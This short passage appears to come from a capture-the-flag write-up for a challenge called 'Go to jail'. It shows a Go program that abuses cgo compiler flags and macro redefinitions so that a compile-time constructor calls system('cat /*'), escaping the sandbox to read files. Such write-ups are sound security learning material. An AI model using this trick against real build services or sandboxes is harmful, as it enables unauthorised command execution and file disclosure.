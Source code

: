 ### Go to jail

Our exploit:

```go
package main
/*#cgo CFLAGS:-D__artificial__=constructor -D__inline=
#define __builtin_ia32_clzero __I="cat /*";system
#include<clzerointrin.h>*/
import "C"
func main(){}
```
